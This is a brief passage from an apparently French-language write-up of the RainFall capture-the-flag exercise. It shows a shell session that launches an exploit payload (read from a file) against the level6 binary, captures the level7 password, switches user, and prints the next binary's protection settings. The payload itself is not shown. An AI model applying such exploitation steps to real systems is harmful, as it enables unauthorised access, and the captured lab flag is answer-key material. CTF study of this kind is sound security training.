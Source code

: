 * On lance l'exploit

```shell
level6@RainFall:/tmp$ ~/level6 $(cat pattern6)
  f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:/tmp$ su level7
  Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
  RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
  No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```
